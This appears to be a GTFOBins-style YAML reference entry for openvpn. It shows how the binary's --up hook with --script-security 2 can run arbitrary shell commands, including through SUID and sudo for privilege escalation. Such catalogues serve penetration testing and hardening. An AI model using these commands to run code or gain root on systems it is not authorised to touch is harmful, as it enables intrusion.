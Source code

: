 ```yaml
---
functions:
  command:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
  suid:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
  sudo:
    - code: |
        COMMAND='id'
        sudo openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
---
```

